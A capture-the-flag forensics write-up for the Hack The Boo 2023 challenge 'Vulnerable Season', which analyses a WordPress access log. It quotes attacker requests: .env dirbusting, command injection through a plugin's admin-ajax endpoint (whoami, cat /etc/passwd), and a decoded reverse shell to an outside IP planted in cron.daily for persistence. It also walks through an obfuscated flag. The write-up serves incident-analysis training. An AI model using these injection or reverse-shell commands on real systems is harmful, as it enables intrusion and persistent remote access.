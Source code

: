 ```yaml
---
layout: default
title: Wide
---
```


# [Hack The Boo 2023](index.md) - Forensics - Vulnerable Season

> Halloween season is a very busy season for all of us. Especially for web page administrators. Too many Halloween-themed parties to attend, too many plugins to manage. Unfortunately, our admin didn't update the plugins used by our WordPress site and as a result, we got pwned. Can you help us investigate the incident by analyzing the web server logs?

We are provided with a single file - `access.log`.

```
192.168.25.1 - - [28/Sep/2023:00:46:16 -0400] "GET /wordpress/wp-includes/js/zxcvbn.min.js HTTP/1.1" 200 400401 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:41 -0400] "POST /wordpress/wp-login.php HTTP/1.1" 200 3281 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:41 -0400] "POST /wordpress/wp-cron.php?doing_wp_cron=1695876461.7606439590454101562500 HTTP/1.1" 200 259 "-" "WordPress/6.3.1; http://johnathan.dev/wordpress"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/l10n.min.css?ver=6.3.1 HTTP/1.1" 200 1022 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/forms.min.css?ver=6.3.1 HTTP/1.1" 200 6858 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/css/buttons.min.css?ver=6.3.1 HTTP/1.1" 200 1791 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/css/dashicons.min.css?ver=6.3.1 HTTP/1.1" 200 36068 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/login.min.css?ver=6.3.1 HTTP/1.1" 200 2493 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/js/jquery/jquery.min.js?ver=3.7.0 HTTP/1.1" 200 30696 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/js/jquery/jquery-migrate.min.js?ver=3.4.1 HTTP/1.1" 200 5223 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
...
```

Looks like it's a web server log.

Skimming the logs, we can see that `82.179.92.206` is likely "dirbusting" this server to find vulnerabilities.

```
...
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env-sample HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.dev HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.dev.local HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.development.sample HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.development.local HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.docker HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
...
```

And judging by the end of the log, it looks like the bad guy got in, and the server admin was likely kicked out

```
68.124.212.176 - - [28/Sep/2023:05:30:36 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:38 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
```

Starting on line 11473 we can see that the attacker was able to access some tiles that they shouldn't, judging by the HTTP status codes (200 instead of 404) 
```
82.179.92.206 - - [28/Sep/2023:05:16:46 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:id:NULL:NULL HTTP/1.1" 200 539 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:17:03 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL HTTP/1.1" 200 493 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:17:44 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:cat%20/etc/passwd:NULL:NULL HTTP/1.1" 200 544 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:18:23 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:pwd:NULL:NULL HTTP/1.1" 200 522 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1" 200 512 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

Knowing that the flag is in this log file somewhere, I'm looking for larger blobs of code or encoded text. I spot something on line 11477:
```
field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL
```
If we urldecode this it's a bit more readable - clearly some commands for a Linux system of some sort - a reverse shell hidden in cron so that it runs daily (granting persistence). 
```bash
field=field:exec:echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev:NULL:NULL
```

The rest of this line looks fishy though - like it's hidden data rather than malicious code... I'd expect it to _run_ something, not deobfuscate it into an `echo` command and then bade64 decoding it with `base64 -d`.

```bash
Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64
```
```
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```

Lets put the `|rev` back on the end to put that the right way around...

```bash
Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64|rev
```

It looks like some bash obfuscation happening here, but this looks like if we just copy this part of it out and run it in bash, it should decode it and display it.

```
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```